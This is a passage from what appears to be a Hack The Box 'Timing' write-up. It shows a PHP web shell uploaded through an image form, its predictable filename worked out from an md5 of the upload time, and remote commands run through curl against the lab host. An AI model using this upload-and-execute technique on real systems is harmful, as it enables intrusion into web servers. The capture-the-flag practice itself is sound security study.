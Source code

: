 Let’s do it for real. Go back to the upload form and select our web shell:

![](https://miro.medium.com/max/860/0*m4JyrxPHu__5NZop.png)

upload image

Make sure your browser is set to use Burp as the proxy, and that Burp is set to intercept. Click the upload image button then switch to Burp to see it’s intercepted:

![](https://miro.medium.com/max/1400/0*3gCrvFv3BjN2RDF7.png)

Burp intercept image upload

We can see at the bottom our code is intact. Right click and choose Send to Repeater, then switch to the Repeater tab and click Send:

![](https://miro.medium.com/max/1400/0*SgFFsRtc05TKdik8.png)

Burp repeater showing date and time file was uploaded

We see on the right the the file was uploaded, now copy take note of the date and time on the server response:

```
Wed, 22 Dec 2021 17:21:43 GMT

```

We use this with our PHP like before:

```
┌──(root💀kali)-[~/htb/timing]
└─# php -a
Interactive mode enabled
php > echo (md5('$file_hash' . strtotime('Wed, 22 Dec 2021 17:21:43 GMT')) . '_pencer.jpg');
e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg

```

We now have the filename we can call remotely using curl. Let’s test it with whoami:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=whoami'
www-data

```

That works. However I spent a long time trying to get a reverse shell with no luck. Back to enumerating the file system and eventually I found this:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=ls+-lsa+/opt' 
total 624
616 -rw-r--r--  1 root root 627851 Jul 20 22:36 source-files-backup.zip

```
